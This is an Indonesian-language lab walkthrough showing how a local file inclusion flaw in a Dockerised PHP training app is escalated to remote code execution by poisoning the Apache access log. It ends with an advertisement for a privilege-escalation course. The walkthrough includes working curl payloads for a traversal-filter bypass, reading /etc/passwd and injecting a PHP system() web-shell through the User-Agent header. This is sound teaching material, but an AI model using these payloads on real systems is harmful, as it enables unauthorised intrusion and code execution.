






# LFI → RCE (Log Poisoning)
## Apa itu LFI?
- **LFI (Local File Inclusion)**: kemampuan aplikasi untuk membaca atau menyertakan file lokal berdasarkan input (mis. parameter `page` yang menentukan file yang di-include).

## Apa itu RCE?
- **RCE (Remote Code Execution)**: kemampuan penyerang untuk mengeksekusi kode arbitrer di server target.

## Apa itu Log Poisoning?
- **Log poisoning**: teknik memasukkan input terkontrol (User‑Agent, Referer, header, form field) yang tercatat di file log web sehingga log berisi marker atau payload.

- **Risiko konseptual**: jika aplikasi dapat meng‑include file log dan engine akan menginterpretasikan isi log sebagai kode (mis. file log di-parse oleh PHP), kombinasi LFI + log poisoning berpotensi mengakibatkan RCE.

## Setup
- sc: https://github.com/moeinfatehi/lfi-to-rce-scenario

```bash
docker rm -f lfi-rce-log-poisoning
docker run -d -p 9005:80 --name lfi-rce-log-poisoning moeinfatehi/lfi-to-rce-scenario
```

access url http://localhost:9005

## Praktek
1. kita coba akses webnya terlebih dahulu lalu kita coba cari tau LFINYA dimana.
2. jika kita lihat source codenya

```php
$f='ctf.txt';
echo "<a class=\"btn btn-primary\" href=\".?file=$f\" /> What is CTF? </a><br><br>";

if($file=$_GET['file']){
    $file=str_replace("../","",$file);
    if($file!="../index.php"){
        include('files/'.$file);
    }
}
?>
```

ini artinya value di parameter file yang ada "../" akan dihapus dan diubah menjadi "" kosong

nah kita bisa lakukan bypass LFI ini dengan cara membuat ".. ../ /", yang dimana nanti "../" akan terhapus dan menyisakan "../"

jadi payload untuk mundurnya adlaah "....//", disini kita coba baca index.php yang ada di root folder

```bash
curl http://localhost:9005/
curl http://localhost:9005/?file=ctf.txt
curl http://localhost:9005/?file=....//index.php
```



2. kita telah berhasil melakukan LFI dengan payload diatas, selanjutnya kita coba baca /etc/passwd untuk testing.
```bash
curl http://localhost:9005/?file=....//....//....//....//etc/passwd
```



3. sekarang kita masuk ke topik utama yaitu LFI ke RCE dengan log poisoning, pertama kita perlu mengetahui dimana lokasi file log web servernya, untuk apache biasanya ada di /var/log/apache2/access.log atau /var/log/httpd/access_log
```bash
curl http://localhost:9005/?file=....//....//....//....//var/log/apache2/access.log
```




4. kita coba tambahkan payload di User-Agent header, disini kita akan menambahkan payload php untuk RCE
```bash
# curl -A "<?php system(\$_GET['cmd']); ?>" http://localhost:9005/?file=ctf.txt
curl -A "<?php system('id'); ?>" http://localhost:9005/
```




---

🔓 LFI → RCE (LOG POISONING) ESSENTIALS

Ketika aplikasi web mengizinkan user menyertakan file lokal tanpa validasi yang kuat, di situlah Local File Inclusion (LFI) dapat dimanfaatkan.

LFI tidak hanya digunakan untuk membaca file.
Dalam kondisi tertentu, LFI dapat ditingkatkan menjadi Remote Code Execution (RCE) melalui teknik Log Poisoning.

Log Poisoning memungkinkan attacker menyisipkan payload ke file log web server (User-Agent, Referer, atau header lainnya).
Saat file log tersebut di-include melalui LFI, payload akan dirender dan dieksekusi oleh server.

Dengan teknik LFI → RCE (Log Poisoning), attacker dapat memperoleh initial foothold, yang kemudian digunakan untuk:
• Akses awal ke sistem target
• Post-exploitation
• Pivot ke serangan lanjutan
• Privilege escalation

Kunci utama serangan ini:
• LFI dengan include()
• Log file dapat diakses
• Payload menghasilkan output
• Server mem-parse log sebagai PHP

LFI bukan soal payload semata, tetapi tentang bagaimana server memproses file 🧠

🎓 CPES – Certified Privilege Escalation Specialist
Fokus pada teknik post-exploitation, privilege escalation, dan lateral movement setelah foothold diperoleh melalui berbagai attack vector (termasuk web exploitation).

🔗 https://linuxenic.com/cpes

🌐 Linuxenic Corp
https://linuxenic.com

@linuxenicorp @linuxenic

#LFI #RCE #LogPoisoning
#PrivilegeEscalation #PostExploitation
#CyberSecurity #RedTeam #CTF
